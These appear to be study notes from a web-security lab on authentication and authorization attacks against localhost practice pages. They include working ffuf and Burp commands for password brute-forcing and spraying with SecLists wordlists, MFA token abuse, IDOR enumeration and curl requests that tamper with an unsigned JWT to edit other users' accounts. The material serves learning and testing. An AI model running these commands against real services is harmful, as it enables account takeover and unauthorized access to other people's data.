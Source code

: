 # Authentication and Authorization Attacks

* Brute-force attacks:

  * In Burp Suite, we can capture the login request, send it to Intruder (Ctrl+I). Then, we can select the field to be fuzzed, add the payloads (using dictionary lists) and start attack.

  * Alternatively, we can save the intercepted login request to a file (Copy to file), replace the field to be edited by FUZZ, and use ```ffuf``` for brute-forcing:

    ```shell
    ffuf -request a0x01.txt -request-proto http -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000.txt
    # run this once and use Ctrl+C to break it

    # we can see that size for failed login is 1814, so we can filter that out

    ffuf -request a0x01.txt -request-proto http -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000.txt -fs 1814
    # gives password
    ```

* Attacking MFA:

  * We have been given a target account and a working set of credentials.

  * After logging in with working credentials, the generated MFA token seems to be weak and can be brute-forced.

  * Another edge-case here is we can modify the username when asked for MFA token to target username and forward the request.

* Authentication challenge:

  * We only have 5 login attempts for brute-force attacks; we can use password-spraying techniques in this case.

  * Using wordlists for common usernames along with 5 common passwords, we can attempt to brute-force our way.

    ```shell
    # intercept the login request for the page
    # and copy to file

    # in file, replace the value of username with FUZZ1 and value of password with FUZZ2
    # as we need to use two fuzzing locations here, clusterbomb mode

    # run the ffuf command once without -fs flag to check size to be filtered
    # then we can run actual command

    cat /usr/share/seclists/Passwords/xato-net-10-million-passwords-10.txt
    # we can refer top 5 passwords from here

    ffuf -request a0x03.txt -request-proto http -w /usr/share/seclists/Usernames/top-usernames-shortlist.txt:FUZZ1 -w 5-common-passwords.txt:FUZZ2 -fs 3256,3376
    ```

* IDOR (Insecure Direct Object Reference):

  * Capture the request to the page in Burp Suite - now we can use Repeater and modify the value of the query parameter (from URL) to get pages for different users.

  * If we want to get the page for certain type of users, we can use Intruder to add payloads from wordlist for the query value; from the results, we can filter by length.

  * Using ```ffuf```:

    ```shell
    ffuf -u 'http://localhost/labs/e0x02.php?account=FUZZ' -w payloads.txt -mr 'admin'
    # -mr is used to filter by regex
    ```

* Broken access control:

  * We have 3 API requests given - ```POST /login.php``` to log into account, ```GET /account.php``` to get account details and ```PUT /account.php``` to update account details:

    ```shell
    curl -X POST -H "Content-Type: application/json" -d '{"username": "admin", "password": "password123"}' http://localhost/labs/api/login.php
    # log into account
    # gives JWT value

    # here JWT is flawed as token does not include signature

    curl -X GET "http://localhost/labs/api/account.php?token=<JWT>"
    # use JWT from legit account

    curl -X PUT -H "Content-Type: application/json" -d '{token: "<JWT>", username:"username", bio: "New bio information."}' http://localhost/labs/api/account.php
    # update info for user
    # if we modify JWT value and username, we can change details for other user
    ```
